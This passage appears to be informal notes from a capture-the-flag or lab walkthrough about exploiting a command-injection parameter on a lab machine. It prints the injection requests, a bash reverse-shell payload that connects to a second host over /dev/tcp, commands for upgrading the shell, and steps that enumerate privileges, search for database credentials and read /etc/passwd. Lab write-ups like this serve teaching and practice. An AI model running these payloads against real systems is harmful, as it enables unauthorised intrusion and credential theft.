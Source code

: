 "http://172.16.2.184/?cmd=whoami"

and i recive:

www-data

If you want to know that you're really on the machine of the target and youre not in a virtual hosting or something, you put this:

http://172.16.2.184/?cmd=hostname -i

and it's the same ip

```
172.16.2.184 fe80::a00:27ff:fedf:3e29
```

Now , of course if we can do this type of commands, we can try to get in to the machine remotely


bash -i means (interactive)
```
http://172.16.2.184/?cmd=bash -c "bash -i >%26 /dev/tcp/172.16.0.140/443 0>%261"
```
Now we're in

- script /dev/null -c bash
- stty raw -echo ;fg
- reset xterm
- export TERM=xterm
- export SHELL=bash


Ok I search on groups , I havent, sudo -l (i need a pass) and group priviledges I havent
and i have no  permissions (find / -perm 4000 2>/dev/null , and without root)

Savitar is searching the password of frank on 

on my pc :

```
find \-name database.php | batcat 
```

this is the file

```
./fullProject/0-7de9115700c5656c670b34987c6fbffd39d90cf2/config/database.php
```

we are going to try with the pass of october
it doesnt work

If we want to search for another valid users on the system we can find them like this

```
grep "shs" /etc/passwd
```

he said that we can compare on the  folder /var the existents archives that we reconstruct of the project git , with the existent files on the target machine

he says that on the backup folders sometimes we can find usefull info.

